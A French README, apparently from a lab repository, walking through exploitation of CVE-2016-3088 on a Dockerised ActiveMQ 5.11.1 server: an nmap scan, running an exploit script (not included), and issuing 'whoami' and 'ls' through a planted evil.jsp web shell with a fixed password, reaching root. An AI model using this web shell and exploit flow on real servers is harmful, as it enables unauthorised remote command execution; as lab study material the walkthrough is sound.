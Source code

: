 # Exploitation de CVE-2016-3088

Ce document détaille l'exploitation de la vulnérabilité **CVE-2016-3088** sur un serveur ActiveMQ. Il comprend la configuration de l'environnement, l'exécution de l'exploit, et la vérification de l'accès.

---

## **1. Configuration de l'environnement ActiveMQ**

### Lancer ActiveMQ avec Docker
1. Accédez au dossier `activemq_2016`.
2. Lancez ActiveMQ en arrière-plan avec Docker Compose :
   ```bash
   docker compose up -d
   ```
3. Accédez à l'interface d'administration ActiveMQ dans un navigateur :
   ```
   http://localhost:8161/admin/
   ```

![Interface ActiveMQ](https://github.com/user-attachments/assets/e20e4588-3776-4320-a3bb-e73a6db35405)

### Vérifier la version d'ActiveMQ
- La version d'ActiveMQ est visible dans l'interface d'administration, ici : **5.11.1**.
- Vous pouvez également confirmer la version dans le fichier `docker-compose.yml` :

![Version dans docker-compose.yml](https://github.com/user-attachments/assets/52a231f2-a055-442a-b362-cec6ed79b7bd)

---

## **2. Identifier les services actifs**

Utilisez `nmap` pour scanner le réseau et vérifier les services disponibles :
```bash
nmap -p- 192.168.1.145
```

![Résultats de nmap](https://github.com/user-attachments/assets/adf66034-e307-4601-8485-cc26b76d2a32)

---

## **3. Exploiter la vulnérabilité**

### Lancer l'exploit
1. Exécutez le script Python pour exploiter la faille :
   ```bash
   python3 CVE-2016-3088.py -u http://localhost:8161/
   ```

   ![Exécution de l'exploit](https://github.com/user-attachments/assets/c34cc77c-42b1-4d43-9c97-e98e63946e14)

### Accéder au WebShell
2. Si l'exploit réussit, vous pouvez accéder au WebShell malveillant via l'URL suivante :
   ```
   http://localhost:8161/api/evil.jsp?pwd=9527&i=whoami
   ```

   - Cette commande retourne l'utilisateur courant (ici `root`), prouvant que l'exploit a fonctionné.

   ![Confirmation de l'accès root](https://github.com/user-attachments/assets/9b6de1b9-f5a5-470c-b8b9-0faf53f3d8b4)

3. Remplacez `whoami` par d'autres commandes pour interagir avec le serveur.
   Exemple :
   ```
   http://localhost:8161/api/evil.jsp?pwd=9527&i=ls
   ```
   - Cette commande liste les fichiers sur le serveur :

   ![Affichage des fichiers](https://github.com/user-attachments/assets/2b1241fb-b26f-4f18-abff-4db980a52eb0)

---
